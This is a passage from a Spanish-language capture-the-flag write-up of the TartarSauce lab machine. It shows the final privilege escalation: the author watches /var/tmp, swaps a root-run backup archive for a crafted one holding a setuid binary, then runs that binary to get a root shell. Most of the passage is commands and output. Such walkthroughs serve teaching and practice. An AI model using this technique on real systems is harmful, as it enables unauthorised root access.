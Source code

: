 
Ahora podemos poner un contador sobre el directorio `/var/tmp` y en caso de que veamos que se creo el archivo oculto, procedemos rapidamente a eliminarlo y copiar nuestro archivo `privesc` con el nombre de dicho archivo:

```bash
onuma@TartarSauce:/var/tmp$ watch -n 1 ls -la
```

Para este momento vimos el archivo `.35de0a6802629804de831dcbffbfe83b94f9971e`, así que rápidamente lo borramos y lo reemplazamos por nuestro archivo:

```bash
onuma@TartarSauce:/var/tmp$ rm .35de0a6802629804de831dcbffbfe83b94f9971e
onuma@TartarSauce:/var/tmp$ cp /dev/shm/privesc .35de0a6802629804de831dcbffbfe83b94f9971e
```

Ahora debemos esperamos unos segundos a que se cree el directorio `check`:

```bash
onuma@TartarSauce:/var/tmp$ ll
total 48
drwxrwxrwt 11 root  root  4096 Oct 11 18:22 ./
drwxr-xr-x 14 root  root  4096 Feb  9  2018 ../
-rw-r--r--  1 onuma onuma 2780 Oct 11 18:22 .35de0a6802629804de831dcbffbfe83b94f9971e
drwxr-xr-x  3 root  root  4096 Oct 11 18:22 check/
drwx------  3 root  root  4096 Feb 17  2018 systemd-private-46248d8045bf434cba7dc7496b9776d4-systemd-timesyncd.service-en3PkS/
drwx------  3 root  root  4096 May 29  2020 systemd-private-4e3fb5c5d5a044118936f5728368dfc7-systemd-timesyncd.service-SksmwR/
drwx------  3 root  root  4096 Oct 11 18:07 systemd-private-51108bf80eca4d39b09636c08e1809ea-systemd-timesyncd.service-dv12ZQ/
drwx------  3 root  root  4096 Feb 17  2018 systemd-private-7bbf46014a364159a9c6b4b5d58af33b-systemd-timesyncd.service-UnGYDQ/
drwx------  3 root  root  4096 Feb 15  2018 systemd-private-9214912da64b4f9cb0a1a78abd4b4412-systemd-timesyncd.service-bUTA2R/
drwx------  3 root  root  4096 Feb 15  2018 systemd-private-a3f6b992cd2d42b6aba8bc011dd4aa03-systemd-timesyncd.service-3oO5Td/
drwx------  3 root  root  4096 Feb 15  2018 systemd-private-c11c7cccc82046a08ad1732e15efe497-systemd-timesyncd.service-QYRKER/
drwx------  3 root  root  4096 Sep 25  2020 systemd-private-e11430f63fc04ed6bd67ec90687cb00e-systemd-timesyncd.service-PYhxgX/
onuma@TartarSauce:/var/tmp$
```

Ingresamos al directorio `check` y vemos nuestras carpetas que creamos `var/www/html`; nos dirigimos al final de la ruta y vemos nuestro script compilado `setuid`, así que procedemos a ejecutarlo.

```bash
onuma@TartarSauce:/var/tmp$ cd check/
onuma@TartarSauce:/var/tmp/check$ cd var/www/html/
onuma@TartarSauce:/var/tmp/check/var/www/html$ ll
total 24
drwxr-xr-x 2 root root  4096 Oct 11 17:42 ./
drwxr-xr-x 3 root root  4096 Oct 11 17:42 ../
-rwsr-xr-x 1 root root 15524 Oct 11 17:34 setuid*
onuma@TartarSauce:/var/tmp/check/var/www/html$ ./setuid 
bash-4.3# whoami
root
bash-4.3#
```

Ya somos el usuario **root** y podemos visualizar la flag (root.txt).
